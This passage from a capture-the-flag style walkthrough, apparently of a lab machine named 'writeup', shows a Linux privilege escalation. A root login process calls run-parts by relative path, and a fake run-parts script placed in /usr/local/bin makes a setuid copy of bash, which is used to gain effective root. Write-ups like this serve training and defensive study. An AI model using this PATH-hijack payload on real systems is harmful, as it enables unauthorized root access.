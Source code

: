 
- We can initiate `ssh` login to see for any more processes that run with `relative paths`.

-  Login with ssh again 

- `pspy` output when logged in with `ssh`

```bash
2021/09/24 16:15:44 CMD: UID=0    PID=2075   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/09/24 16:15:44 CMD: UID=0    PID=2076   | run-parts --lsbsysinit /etc/update-motd.d 
2021/09/24 16:15:44 CMD: UID=0    PID=2077   | uname -rnsom 
2021/09/24 16:15:44 CMD: UID=0    PID=2078   | sshd: jkr [priv]  
```

- We can see that `run-parts` is being called with `relative path`, we can create a malicious binary and place it in `/usr/local/bin`

```bash
jkr@writeup:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```


- Maliciopus binary (`run-parts`)

```
#!/bin/bash

cp /bin/bash /tmp/
chmod 7777 /tmp/bash
```

- copy to `/usr/local/bin`

```bash
jkr@writeup:/tmp$ cp run-parts /usr/local/bin/
```

- initiate `ssh` login

__Result__

```bash
jkr@writeup:/tmp$ ls -la
total 5176
drwxrwxrwt  3 root root    4096 Sep 24 16:23 .
drwxr-xr-x 22 root root    4096 Apr 19  2019 ..
-rwsrwsrwt  1 root root 1099016 Sep 24 16:22 bash
-rwxr-xr-x  1 jkr  jkr  1099016 Sep 24 16:20 mybash
-rwxr-xr-x  1 jkr  jkr  3078592 Aug 22  2019 pspy64
-rwxr-xr-x  1 jkr  jkr       53 Sep 24 16:21 run-parts
drwx------  2 root root    4096 Sep 24 16:10 vmware-root
```

- Run `bash` in tmp using `-p` for privileged mode


```bash
jkr@writeup:/tmp$ ./bash -p
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev),1000(jkr)
```

- `euid` is `root`